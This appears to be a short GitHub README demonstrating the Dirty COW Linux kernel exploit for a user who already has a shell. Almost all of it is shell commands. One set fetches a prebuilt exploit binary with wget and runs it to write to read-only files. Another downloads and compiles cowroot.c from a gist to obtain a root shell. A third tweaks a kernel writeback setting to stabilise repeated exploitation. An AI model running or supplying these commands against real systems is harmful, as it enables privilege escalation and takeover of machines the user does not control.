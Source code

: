 # Dirty COW Demo

Use these examples to try out the [Dirty COW](https://dirtycow.ninja/) exploit. These examples assume that you already have a shell in the system.

## Writing to a read-only file

The most basic use-case of Dirty COW is to write to a read-only file. We will be using an exploit written in the Crystal programming language.

```bash
# Download the binary.
$ wget -O dirtyc0w https://github.com/xlucas/dirtycow.cr/releases/download/v0.1.0/dirtycow-amd64

# Make it executable.
$ chmod +x dirtyc0w

# Execute the binary to write to a read-only file.
./dirtyc0w -t <read-only file> -s <desired content>
```

## Obtaining a root shell

Many sample exploit scripts have taken it one step further by modifying the appropriate files and giving back a root shell.

```bash
# Download the source code.
$ wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c

# Compile the source code into an executable.
$ gcc cowroot.c -o cowroot -pthread

# Execute the binary to obtain a root shell.
$ ./cowroot
```

## Stablizing the exploit

Sometimes, the system freezes when executing the exploit. This can be prevented with the following command _(Unfortunately it requires one to already be `root`, so it's only useful for repeated exploits)_.

```bash
$ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

